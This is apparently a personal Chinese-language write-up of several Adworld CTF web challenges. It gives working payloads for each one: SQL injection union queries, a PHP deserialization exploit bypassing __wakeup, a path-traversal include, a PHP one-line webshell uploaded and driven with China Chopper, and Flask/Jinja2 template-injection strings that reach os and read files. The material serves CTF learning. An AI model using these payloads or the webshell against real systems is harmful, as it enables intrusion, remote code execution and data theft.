









## 一. sql注入题目

1. **题目：攻防世界web高手进阶区的newscenter题目：**

   - 为什么要使用单引号`'`，为什么要使用`#`，联合查询的时候，直接select 1，2，3看结果回显哪一个？？为什么还要 0 union。

     `'and 0 union select 1,2,3 # `

     ***（注：这里看了别的writeup，好像 111‘ union select 1,2,3 # 也OK ）***

     

     

   - 由于上面的查询语句得到的是2 3的结果，所以这题的思路就是在2 3位置输入查询的数据库名和表名。
   
     ````mysql
  ' and 0 union select 1, table_schema,table_name from information_schema.columns #
     ````

     

     

     由查询结果可知，数据库为news，表名为secret_table。

   - 这一步查询secret_table的字段名：
   
     ```mysql
  ' and 0 union select 1,2,column_name from information_schema.columns where table_name='secret_table' #
     ```

     

   - 由结果可得：

     结果在fl4g字段中：

     
   
     `QCTF{sq1_inJec7ion_ezzz} `

## 二. 序列化与反序列化题目

1. **攻防世界web高手进阶区的unserialize3题目**

   

   题目提示的是让我们狗仔一个参数?code=传入url，题目又是说的反序列化，所以我们将整个xctf对象进行反序列化，得到结果：

   

   因此我们构造payload：`?code=o:4:"xctf":1:{s:4:"flag";s:3:"111";}`,得到结果：

   

   如上图所示，是一段php代码，进行代码审计，是让我们通过构造var参数，获取fl4g.php文件的内容即可，首先是对var参数进行base64的解码，然后进行反序列化，通过以上知识，直接写php代码运行得到payload：

   ```php
   <?php 
   class Demo { 
       private $file = 'index.php';
       public function __construct($file) { 
           $this->file = $file; 
       }
       function __destruct() { 
           echo @highlight_file($this->file, true); 
       }
       function __wakeup() { 
           if ($this->file != 'index.php') { 
               //the secret is in the fl4g.php
               $this->file = 'index.php'; 
           } 
       } 
   }
       $A = new Demo('fl4g.php');
       $C = serialize($A);
       //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
       $C = str_replace('O:4', 'O:+4',$C);//绕过preg_match
       $C = str_replace(':1:', ':2:',$C);//绕过wakeup
       var_dump($C);
       //string(49) "O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"
       var_dump(base64_encode($C));
       //string(68) "TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ=="
   ?>
   ```

   其中，4改为+4是为了绕过正则表达式的匹配，:1:改成:2:是利用了CVE-2016-7124的漏洞，即当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行。

   最后得到flag：

   

   

## 三. Git源码泄露题目（Lottery）

> 攻防世界 _ web _ 高手进阶区 _ Lottery

- 拿到题目，如下图所示：

  

  

  是买彩票题目，输入七个数字，如果全部正确就可以获得最多的钱，我们的目标就是拿到最多的钱。

- 使用**御剑**进行扫描

X.png?lastModify=1612442930)

发现存在`robots.txt`文件，进入看:


- 网上说是源码**git源码泄露**问题，使用**GitHack**工具将源码下载到本地：

  

  - 查看`api.php`代码：

  

  是将你输入的字母和随机生成的7个`win_numbers`一个一个地进行比较，又由于php是弱类型比较，**if (true==任何非零数字) 就会返回true** ，所以本题的思路就是使用**burp suite**抓包，改包，将`numbers`的值全部改为`true`。如下图所示：

  

  可以看到网页的返回结果如下图所示：

  

  而且我们的钱数已经加了5000000：

  

  - 继续再抓一次包改一次包：

    

    钱数已经超过一千万了：

    

    这个时候就可以买flag了：

    

## 四. php代码审计题目（warmup）

> 攻防世界_ web _ 高手进阶区_warmup

- 这道题目通过查看源代码发现包含的`.php`文件，查看后进行代码审计，满足条件则，`include`文件。

- **include语句的作用**

  `include  $_REQUEST['file']`

  - `include`语句包含并运行指定文件？？
  - 意思是包含`file`参数，`file`参数是从`url`中传递进来的参数，我们要构造这个参数使得它满足代码中的条件，并且还能够被执行，执行后得到flag，一般执行的都是系统命令，命令类型是文件路径，目标也是要找到包含flag文件的路径（一般根据题目提示找到，在本题中，它提示flag在`ffffllllaaaagggg`中，这暗示了flag在当前目录的下面第四层目录中）

- 被包含文件先按照参数给出的路径寻找，如果没有给出目录时则按照`include_path`指定的目录寻找。如果定义了路径，不管是绝对路径还是当前目录的相对路径（以`..`或者`.`开头）`--include_path`都会被完全忽略，如果文件以`../`开头，解析器会在当前目录的父目录下寻找改文件。（看不懂.jpg）

- 因此构造的payload如下：

  `?file=source.php?/../../../../ffffllllaaaagggg`

  第一个问号表示传参。

上面是根据代码审计构造的payload，是为了让`file`参数能够满足判断条件然后使得`include`语句能够成功执行。


看得懂代码才是关键。需要绕过各种判断条件。


## 五. 一句话木马上传漏洞

> 记录一下第一次getshell的过程
>
> 题目来源：攻防世界 web 高手进阶区 upload1

**一. 题目描述**


如上图所示，是选择一个文件然后上传，而且上传的文件的后缀名必须是.jpg或者.png图片。

**二. 分析**

- 使用burp suite抓包，发现一段js代码，如下图所示：


它判断输入的文件后缀名，如果不是jpg或者png，就弹窗错误。

- 先创造一个一句话木马文件：

  创建文件one.txt输入下面的一句话木马：

  ```php
  <?php
  @eval($_POST['sbb']);
  ?>
  ```

  sbb是后面用菜刀连接网站的时候用的口令，可以随便设置。

  然后修改one.txt的后缀名为.jpg后缀。

- 上传创造的one.jpg文件：

  

  

- 使用中国菜刀连接：

  

  如上图所示，GB2312那个框框不能设置为UTF-8，因为我看别人的writeup的这里就是设成UTF-8，然后我设置为这个之后会连接不上，就让他是默认的设置就好了。连接上之后，如下图所示：

  

  

  发现flag.php文件，点击：

  ***（这一步会失败好多次不知道为什么，点击了好几次，等了好久才出来……）***

  

  得到的flag：

  cyberpeace{e79e0a70b0d40c4f0d8d0501cfb5950f}

  

有的writeup说上传的.jpg文件会连接不上，但是我可以连接的上，连接不上的时候，要抓包改包，把.jpg文件后缀名改成.php后缀，如下图所示，上传成功之后再同样的使用菜刀连接就行了。





## 六. python 模块注入？？

（原谅我见识短浅第一次看到这个东西）

> 题目来源：攻防世界 web 高手进阶区 web_python_template_injection

一. 题目描述：


二. 分析

（这里只能去看别人的writeup入门一下怎么做了）

- 首先查看{{7+7}}，不懂：


- 然后`{{''.__class__.__mro__[2].__subclasses__()}}`：



持续不懂中……

- 再然后`{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}`


- 最后`{{''.__class__.__mro__[2].__subclasses__()[40]('fl4g').read()}}`


flag就拿到了。

`ctf{f22b6844-5169-4054-b2a0-d95b9361cb57}`

## 七. SSTI模块注入

> 题目来源：攻防世界 web 高手进阶区 shrine
>
> 知识点涉及：
>
> - [ ] SSTI模块注入
> - [ ] flask框架

一. 题目描述：



是一段没有修饰的python代码，直接查看网页源代码：



这题用的知识就是flask框架和SSTI模板注入漏洞问题，探测漏洞：


可以看到用户输入被当作代码执行了，接下来构造下面的payload，获取flag：

(用到flask框架的知识和SSTI模块注入)

`**shrine/{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}**`



